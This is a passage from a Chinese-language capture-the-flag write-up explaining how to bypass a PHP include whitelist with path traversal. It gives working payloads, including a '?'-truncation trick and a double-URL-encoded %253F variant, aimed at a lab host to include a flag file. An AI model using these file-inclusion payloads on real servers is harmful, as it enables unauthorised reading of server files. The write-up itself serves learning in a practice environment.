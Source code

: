 截取`$page`变量的值的第一个`?`前的字符串给`$_page`变量，`$_page`变量的值为`source.php`或者`hint.php`，在白名单内，返回true

所以payload为：

- `?file=source.php?/../ffffllllaaaagggg`
- `?file=source.php?/../../ffffllllaaaagggg`
- `?file=source.php?/../../../ffffllllaaaagggg`
- ……

(把`source.php`替换成`hint.php`也可以)

在绕过白名单的情况下不断尝试往上级目录包含`ffffllllaaaagggg`文件

**最终确定payload为：`http://09b122ae-c857-4cde-b0c1-0619a97418a6.node4.buuoj.cn:81/source.php?file=source.php?/../../../../ffffllllaaaagggg`**

> 可能会有疑惑：在路径前加个`source.php?`难道不会出错吗？
>
> 服务器会把`source.php?`看作是与**当前页面处于同级目录下的一个叫做"source.php?"的目录**，如果路径就单单是这个目录，因为目录不存在，就会无法确定而出错。
>
> 如果路径是`source.php?/..`：相当于是当前目录下的一个"source.php?"目录下的上级目录，尽管"source.php?"目录不存在，但`source.php?/..`一定就是当前目录了嘛(有点绕)
>
> 所以`source.php?/../../../../ffffllllaaaagggg`和`../../../ffffllllaaaagggg`的效果是一样的
>
> **对此我特意做了个实验来验证，放在本文的最下方**

当然，也可以从第三处入手来返回true，总的思路差不多

与第二处相比，第三处就多了条代码：`$_page = urldecode($page)`，也就是会先把`$page`的值通过URL解码后再截取第一个`?`前的字符串到白名单里比较

```php
$_page = urldecode($page);
    $_page = mb_substr(
        $_page,
        0,
        mb_strpos($_page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }
```

**因为使用超全局变量`$_REQUEST`已经被解码了**，所以要先把payload通过URL编码两次

**最终确定payload为：`http://09b122ae-c857-4cde-b0c1-0619a97418a6.node4.buuoj.cn:81/source.php?file=source.php%253F/../../../../ffffllllaaaagggg`**

(也可以把`/`编码一次，但不可以编码两次)

> [urldecode()函数](https://www.php.net/manual/zh/function.urldecode.php)
>
> 有的人可能有疑惑：为什么不把后面的`/`也编码编码两次？
>
> 全都编码两次的结果是：`source.php%253F%252F..%252F..%252F..%252F..%252Fffffllllaaaagggg`
>
> 执行`emmm::checkFile($_REQUEST['file'])`的`$_REQUEST['file']`接收参数时自动解码一次：`source.php%3F%2F..%2F..%2F..%2F..%2Fffffllllaaaagggg`
>
> 执行`$_page = urldecode($page)`时再解码一次：`source.php?/../../../../ffffllllaaaagggg`
>
> 这时返回true，开始执行`include $_REQUEST['file']`，但是执行`include $_REQUEST['file']`的`$_REQUEST['file']`接收到的参数是只解码过一次的：`source.php%3F%2F..%2F..%2F..%2F..%2Fffffllllaaaagggg`，服务器会把它直接当作一个文件名

